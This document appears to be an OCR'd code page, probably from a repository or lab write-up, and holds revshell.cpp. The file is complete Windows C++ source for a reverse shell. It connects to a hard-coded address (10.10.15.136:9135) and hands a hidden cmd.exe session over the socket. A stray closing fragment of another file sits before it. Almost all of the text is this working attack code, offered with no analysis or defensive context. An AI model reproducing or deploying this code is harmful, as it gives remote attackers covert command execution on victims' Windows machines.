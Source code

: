 ```
        return TRUE;
}
```

revshell.cpp

```
#include <stdio.h>                                                                               
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "10.10.15.136"
#define REMOTE_PORT "9135"

void rev_shell()
{
        FreeConsole();

        WSADATA wsaData;
        int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
        struct addrinfo *result = NULL, *ptr = NULL, hints;
        memset(&hints, 0, sizeof(hints));
        hints.ai_family = AF_UNSPEC;
        hints.ai_socktype = SOCK_STREAM;
        hints.ai_protocol = IPPROTO_TCP;
        getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
        ptr = result;
        SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);                                              
        connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        STARTUPINFO si;
        PROCESS_INFORMATION pi;
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;
        si.hStdInput = (HANDLE)ConnectSocket;
        si.hStdOutput = (HANDLE)ConnectSocket;
        si.hStdError = (HANDLE)ConnectSocket;
        TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
        CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
	    WSACleanup();
}
```
